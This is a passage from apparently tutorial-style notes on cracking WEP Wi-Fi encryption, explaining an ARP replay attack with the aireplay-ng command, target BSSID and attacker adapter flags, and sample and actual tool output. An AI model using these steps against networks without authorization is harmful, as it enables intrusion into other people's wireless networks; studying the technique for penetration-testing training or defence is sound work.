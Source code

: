 - Once, this packet is sent to the network, we are going to capture it, and retransmit it. Once, we do this, the router is forced to generate a new packet with new IV.

- By repeating this process, we will be forcing the router to contnuously generate new packets with new IVs. Than once we have enough packets, we can crack the WEP key.

- We can do this attack using the command:

    ```bash
    root@kali:~# aireplay-ng --arpreplay -b <BSSID> -h <MAC_ADDRESS_OF_HACKERS_ADAPTER> wlan0
    ```

    The output will look like this:

    ```
    [TIME] Waiting for beacon frame (BSSID: <BSSID>) on chanbel <channel>
    Saving ARP requests in file: something.cap
    You should also start airodump-ng to capture replies.
    Read XXXXXX packets (got XXXXX ARP requests and XXX ACKs), sent XXXX Packers...(XXX pps)
    ```

    Actual output looks like this:

    ```bash
    root@kali:~# aireplay-ng --arpreplay -b WIFI_MAC -h WIRELESS_ADAPTER_MAC  wlan0
    06:07:29  Waiting for beacon frame (BSSID: WIFI_MAC) on channel 36
    Saving ARP requests in replay_arp-0727-060729.cap
    You should also start airodump-ng to capture replies.
    Read 0 packets (got 0 ARP requests and 0 ACKs), sen
    Read 2 packets (got 0 ARP requests and 0 ACKs), sen
    Read 23 packets (got 0 ARP requests and 0 ACKs), se
    Read 33 packets (got 0 ARP requests and 2 ACKs), se
    Read 37 packets (got 0 ARP requests and 2 ACKs), se
    Read 48 packets (got 0 ARP requests and 2 ACKs), se
    Read 49 packets (got 0 ARP requests and 2 ACKs), se
    Read 55 packets (got 0 ARP requests and 2 ACKs), se
    ```

- `-b` is the BSSID of the target network, and `-h` is the MAC address of the hacker's adapter.

---
